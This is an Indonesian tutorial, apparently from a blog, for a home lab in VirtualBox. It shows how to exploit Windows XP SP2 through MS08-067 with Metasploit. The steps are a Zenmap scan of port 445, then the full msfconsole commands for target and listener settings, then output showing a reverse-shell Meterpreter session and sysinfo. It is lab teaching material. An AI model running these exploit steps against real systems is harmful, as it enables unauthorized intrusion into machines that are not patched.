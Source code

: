 ```yaml
---
title: "Metasploit pada windows xp sp2"
date: 2018-11-15T23:58:25+07:00
draft: false
---
```


### Persiapan

Untuk ujicoba metasploit, kita akan menggunakan tools bawaan kali linux. Yang diperlukan untuk praktik ini adalah aplikasi virtualbox, windows XP SP2, dan kali linux. Gunakan memori minimal jika anda hanya memiliki memori 2GB. Misalkan Kali linux, memori 512MB dan Windows, memori 256MB


#### Import VM Kali linux

Untuk import file ova kali linux, masuk ke aplikasi virtualbox - klik file - import appliance - pilih file OVA yang akan diimport. Caranya seperti gambar berikut:

![Import file OVA di virtualbox](/imgpost/virtualbox-appliance.png)

Selanjutnya ikutin saja langkah-langkahnya. Setelah berhasil diimport matikan USB mode VM melalui preferences.



#### Import VM windows XP SP2

Untuk membuat VM baru, klik new - isi nama VM - pilih lokasi hardisk (pilih file VDI yang akan digunakan). Lakukan seperti gambar berikut ini:

![Import file vdi windows di virtualbox](/imgpost/windowsdivirtualbox.png)

Setelah kedua VM berhasil dibuat, selanjutnya anda perlu melakukan konfigurasi network.



#### Konfigurasi jaringan

Pada konfigurasi virtualbox, kedua VM dibuat mode network bridge - pilih nama interface ethernet anda. Bisa dilihat seperti gambar dibawah ini:

![Mode network bridge di virtualbox](/imgpost/virtualbox-bridge-network.png)

Setelah selesai konfigurasi, anda dapat menjalankan kedua VM dan setelah masuk catatlah IP dari kedua VM tersebut. Gunakan perintah **ifconfig** untuk melihat IP dari VM tersebut. Dalam model praktik diatas IP VM kali linux adalah **192.168.10.1** dan IP VM windows XP SP2 adalah **192.168.10.2**. _Alamat IP address bisa berbeda setiap mesin, jadi sebaiknya anda sesuaikan dengan kondisi konfigurasi jaringan anda_.



### Skenario

Dalam praktik ini, skenario yang digunakan adalah dengan memanfaatkan salah satu kelemahan dari protokol samba. Protokol ini umumnya digunakan untuk sharing file/direktori di windows. Dengan mengetahui celah keamanan dari protokol ini, anda dapat masuk kedalam sistem operasi windows.

Buatlah folder/direktori pada windows XP, dan setting agar dapat direktori tersebut dapat diakses oleh pengguna lain dengan menggunakan sistem sharing. Caranya: klik kanan direktori yang akan di sharing - pilih sharing and security - lalu checklist direktori yang akan di sharing.

![Aktifkan sharing file/folder di windows XP](/imgpost/windows-xp-sharing-folder.png)

Setelah selesai, anda dapat masuk ke sistem operasi kali linux. Gunakan user: **root**, dan password: **toor** untuk dapat masuk kedalam sistem operasi kali linux.



### Identifikasi celah keamanan dengan NMAP

Identifikasi digunakan untuk mengetahui celah keamanan yang ada pada sebuah sistem. Dalam praktik ini menggunakan NMAP. Klik application - pilih information gathering - pilih zenmap. Kemudian masukkan alamat ip target seperti gambar berikut:


_Anda dapat melihat port 445 dengan status open. Dengan NMAP sebenarnya kita juga dapat melakukan proses information gathering dengan opsi script. Opsi ini memungkinkan untuk mencari celah keamanan berdasarkan bugs/exploit dari aplikasi yang dituju._



### Exploit Sistem Windows

Kali linux sudah memiliki beberapa tools yang dapat digunakan untuk melakukan proses exploit, dalam praktik ini akan digunakan metasploit. Klik menu application - pilih favorit - pilih metasploit. Setelahnya metasploit akan berjalan dan masuk kedalam console tools tersebut, seperti gambar berikut ini:

Kemudian untuk mencari exploit, bisa menggunakan perintah: search <kata kunci nama exploit>. Misalkan untuk mencari nama exploit ms08_067 gunakan perintah:


```
msf > search ms08_067

Matching Modules
================

   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
```


Untuk menggunakan exploit gunakan perintah use <nama exploit>, seperti contoh berikut:


```
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > 
```


Kemudian gunakan perintah show options untuk melihat opsi yang dapat digunakan.


```
msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```


RHOST adalah alamat ip target, RPORT adalah alamat port target. Selanjutnya untuk 

Menentukan alamat ip target (sesuaikan ip target anda), gunakan perintah berikut:


```
msf exploit(ms08_067_netapi) > set rhost 192.168.10.2
```


LHOST dan LPORT adalah sistem yang melakukan proses exploit dalam hal ini adalah mesin kali linux itu sendiri 


```
msf exploit(ms08_067_netapi) > set lhost 192.168.10.1
lhost => 192.168.10.1
msf exploit(ms08_067_netapi) > set lport 888
lport => 888
```


Proses selanjutnya adalah melakukan proses exploit terhadap sistem yang menjadi target. Anda dapat menggunakan perintah `exploit`. Jika bugs/celah keamanan telah ditutup proses exploit bisa saja gagal.


```
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 192.168.1.7:888 
[*] 192.168.1.6:445 - Automatically detecting the target...
[*] 192.168.1.6:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 192.168.1.6:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 192.168.1.6:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179267 bytes) to 192.168.1.6
[*] Meterpreter session 1 opened (192.168.1.7:888 -> 192.168.1.6:1030) at 2018-11-11 06:13:54 -0500

meterpreter >
```


Setelah anda mendapatkan meterpreter console artinya anda sudah masuk ke shell sistem windows XP atau DOS. Anda bisa mencoba beberapa perintah DOS untuk memastikan bahwa anda berada dalam sistem tersebut. Misalkan perintah sysinfo.


```
meterpreter > sysinfo 
Computer        : MYHOME-B4BC98C5
OS              : Windows XP (Build 2600, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

```

